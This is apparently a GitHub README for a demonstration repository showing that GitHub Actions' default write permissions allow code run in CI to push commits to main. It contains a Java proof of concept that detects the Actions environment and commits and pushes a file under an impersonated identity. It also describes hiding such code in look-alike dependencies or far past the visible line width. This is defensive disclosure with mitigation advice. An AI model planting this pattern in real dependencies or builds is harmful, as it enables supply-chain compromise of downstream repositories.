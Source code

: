 # Musical-Okto-Carnival

GitHub actions by default allow any code executed as part of the action, except
when running as part of a PR from a forked repository, to commit changes to the
main branch. This is exceedingly dangerous and could allow the introduction of
malicious code into the source code repositories of widely used software.

GitHub provides repository owners a lot of control over what GitHub Actions
have access to; this has only been strengthend in recent months due to
[BitCoin mining attacks](https://www.coindesk.com/hackers-mined-crypto-on-githubs-servers-report).
However, by default an action running on a non-forked branch has write access
to the respository.

## Attacking Repositories on GitHub

Imagine a scenario where a maintainer of a widely used OSS package goes rogue
and decides they want to start spreading malicious code. For instance, if the
primary maintainer of [OWASP dependency-check](https://github.com/jeremylong/DependencyCheck)
decided to abuse the trust so many users have given the tool over the years.
What if the following code were introduced and called as part of the execution
of dependency-check:

```java
    private void provideWarning() {
        String ref = getEnv("GITHUB_REF", "");
        boolean isAction = Boolean.parseBoolean(getEnv("GITHUB_ACTIONS", "false"));
        boolean notPR = getEnv("GITHUB_HEAD_REF", "").isEmpty();
        boolean isMain = "refs/heads/main".equals(ref);
        boolean isMaster = "refs/heads/master".equals(ref);
        java.io.File f = new java.io.File("warning.md");

        if (isAction && notPR && (isMain || isMaster) && !f.exists()) {
            try (java.io.FileWriter writer = new java.io.FileWriter(f);
                    java.io.BufferedWriter out = new java.io.BufferedWriter(writer)) {
                out.write("Warning\n");
                out.write("=======\n\n");
                out.write("Branch protection is not enabled and GitHub Actions has the\n");
                out.write("ability to write to the repository. Any action or code executed\n");
                out.write("during the build, even code in third party dependencies called\n");
                out.write("during testing, could subvert the integrity of your project.\n\n");
                out.write("See [Disabling or limiting GitHub Actions for a repository]");
                out.write("(https://docs.github.com/en/actions/reference/environment-variables#default-environment-variables) ");
                out.write("for more information on how to protect you repository.");
                out.flush();
                out.close();
            } catch (java.io.IOException ex) {
                //ignore
            }
            exec("git config user.email \"actions@github.com\"");
            exec("git config user.name \"GitHub Actions\"");
            exec("git add warning.md");
            exec("git commit -m \"warning\" warning.md");
            if (isMain) {
                exec("git push origin main");
            } else {
                exec("git push origin master");
            }
        }
    }
    // The rest of the code is trivial helper functions used to make the example above more concise.
    private String getEnv(String name, String def) {
        String ret = System.getenv(name);
        if (ret == null) {
            ret = def;
        }
        return ret;
    }

    private void exec(String cmd) {
        try {
            Runtime run = Runtime.getRuntime();
            Process pr = run.exec(cmd);
            Thread in = new ProcessReader(pr.getInputStream());
            Thread err = new ProcessReader(pr.getErrorStream());
            in.start();
            err.start();
            if (pr.isAlive()) {
                pr.waitFor();
            }
            in.join();
            err.join();
        } catch (java.io.IOException | InterruptedException ex) {
            //ignore
        }
    }

    static class ProcessReader extends Thread {
        java.io.InputStream inputStream;
        byte[] buffer = new byte[1024];

        ProcessReader(java.io.InputStream inputStream) {
            this.inputStream = inputStream;
        }

        @Override
        public void run() {
            try {
                int read;
                do {
                    read = inputStream.read(buffer);
                } while (read != -1);
            } catch (java.io.IOException ex) {
                //ignore
            }
        }
    }
```

The above code example is lengthy for completness - but at its core it simply:

1. Validates that it is running as a GitHub Action running on the `main` or
   `master` branch.
2. If it is in the correct execution context it then writes a `warning.md`
   file into the root of the repository.
3. The `warning.md` is then added to git, committed to git, and then pushed
   to the `main` or `master` branch.

While the example is mostly harmless, it demonstrates how dangerous the default
permissions can be. One could add or modify code within the repository and the
commits could impersonate one of the contributers (all you need is their email
address) instead of the above code just using `actions@github.com`. Detecting
the introduction of the injected code could be difficult. A real attacker could
even check if the code was executing right after a merge event so maintainers
would have to do a pull anyway before being able to update.

The example code above could be introduced into any dependency, GitHub Action
from the marketplace, or really any code that is executed withinva GitHub
Action. Imagine the number of repositories that could be compromised if code
like the example above were introduced into JUnit or other testing framework.

## In Action

### Act 1

To see the payload in action, the code was added in
[PR #1](https://github.com/jeremylong/musical-octo-carnival/pull/1).

When run as part of the build of main the repository now has a `warning.md`.

As the PR indicates, the "attack" was done in plain site. There are numerous
was to mask the attack. The easiest would be to include a subverted dependency;
one could even create a look-a-like/typo squated dependency to make it easier
to introduce the code.

### Act 2

With [PR #2](https://github.com/jeremylong/musical-octo-carnival/pull/2) the
"malicious" code was cleaned up and the `warning.md` removed. Who needs that
cumbersome branch protection.

### Act 3

In Act 3 / [PR #3](https://github.com/jeremylong/musical-octo-carnival/pull/3)
the "malicious" code was re-introduced. This time discussed and completely
missed during the peer review due to the Unified view not have any indication
that there is code way off on the right starting at character 160. See the PR
for the example. This is just another way malicious code can be introduced.

If programming in a language that allows - it is recommended to use the "Split"
view when reviewing a PR. Alternatively, use a tool like Checkstyle with a line
length check enabled and anotate your PRs with the
[Violations-to-GitHub-Comment](https://github.com/tomasbjerre/violation-comments-to-github-command-line)
utility. The OWASP dependency-check project uses the violations maven plugin;
[example here](https://github.com/jeremylong/DependencyCheck/blob/fc010a869aee54d7fd0357a95f9c5b2da2597363/.github/workflows/pull_requests.yml#L31).

### Act 4

With Act 4 / [PR #4](https://github.com/jeremylong/musical-octo-carnival/pull/3)
and implement AllStar. Hopefully, the maintainer will actually resolve the
[issues](https://github.com/jeremylong/musical-octo-carnival/issues).

## Solutions

GitHub already has (almost) everything in place a user needs to secure their
repositories. Repository owners can enable branch protection or change the
default permissions on Actions to be read-only via the workflow yaml or using
a personal access token.

The recent introduction of [AllStars](https://github.com/ossf/allstar/blob/main/quick-start.md)
is awesome! AllStars will examine an organization or repository and alert
if any issues are discovered. However, tools like AllStars require users to
opt-in. As anyone in security knows when you start asking people to opt-in
you are doomed to fail. With AllStars we aren't just asking them to opt-in
to security, but we are asking them to opt-in just for a notification.

The best solution would be to make Actions secure by default. This could be
done by changing the default permission level for GitHub Actions read-only.
Making this change would obviously be difficult as it would end up breaking
a lot of builds. However, the default GitHub Action permissions on all new
repositories created should be made read-only. In order to do this GitHub
would need to introduce a way to control the default permissions beyond
just those for Pull Requests from forked repositories; currently the only
way to make an Action read-only is to provide a limited access token or
to use the `permissions` tag in the yaml. In most cases, Actioms do not
need the ability to write to a repository and for those that do one can
simply add the write permission in the yaml defining the Action.

Another solution available to GitHub would be to move the functionality of
AllStars from an Action in the Marketplace to an integral part of GitHub
just like was done with dependabot. As such, all repository owners could
be alerted, just like dependabot, if their repository is setup insecurely.
The warnings could be displayed only to the repository owners and provide
two buttons to assist with resolution:

1. Enable Branch Protection
2. Change Default Permissions to read-only

## End Scene

In summary, for now use [AllStars](https://github.com/ossf/allstar/blob/main/quick-start.md)
and secure your GitHub repos. When performing Peer Review - consider using
the `Split` view or using some other tool to detect long lines.
